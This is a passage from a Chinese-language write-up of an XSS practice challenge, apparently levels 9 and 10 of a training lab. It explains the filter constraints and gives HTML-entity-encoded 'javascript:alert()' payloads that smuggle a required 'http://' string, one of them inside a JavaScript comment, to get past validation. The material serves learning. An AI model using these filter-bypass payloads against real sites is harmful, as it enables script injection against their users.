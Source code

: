 1.会对特殊字符过滤，需要编码。

2.需要加入http://

3.js代码能执行

4.value先经过URL-->后端校验-->写入href

5.后端校验时不能有特殊被过滤字符（要编码），要有http://（不能被编码）

payload：\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;http://

​![image](assets/image-20240913185037-uyrrd4g.png)​

http://检测到了，但也被当作了js，导致js语法不对。

payload：\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;/\* http:// \*/

​![image](assets/image-20240913185512-xbbjxl0.png)​

## level10

打开没有发现注入点，有三个被隐藏的输入框，但是不知道URL里的参数名，只有input里的name，那后端名称可能和name一样，一个个试试。

​![image](assets/image-20240913191348-a02bwaq.png)​
